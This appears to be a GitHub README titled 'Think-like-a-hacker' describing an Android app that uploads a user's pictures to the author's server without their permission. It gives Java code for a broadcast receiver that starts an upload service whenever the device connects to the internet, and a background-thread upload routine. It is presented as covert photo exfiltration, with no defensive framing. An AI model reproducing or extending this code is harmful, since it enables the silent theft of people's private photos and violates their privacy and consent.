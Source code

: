 # Think-like-a-hacker
## Upload picture without permission of user to our server.
when user connects to the internet it starts uploading pictures to the server.<br>
Service invoke when broadcast receiver receive the internet connect event this starts uploading.
### Invoke Upload service when network connect
```groovy
        ConnectivityManager cm = (ConnectivityManager) context.getSystemService(Context.CONNECTIVITY_SERVICE);
        assert cm != null;
        NetworkInfo info = cm.getActiveNetworkInfo();
        if (info != null) {
            if (info.isConnected()) {
                Intent intentnew = new Intent(context, UploadService.class);
                context.startService(intentnew);
            }
        }
```
### Starts Uploading
```groovy
    void startUploading(final File file) {
        Runnable runnable = new Runnable() {
            @RequiresApi(api = Build.VERSION_CODES.KITKAT)
            @Override
            public void run() {
                uploadFile(file);
            }
        };
        new Thread(runnable).start();
    }
```
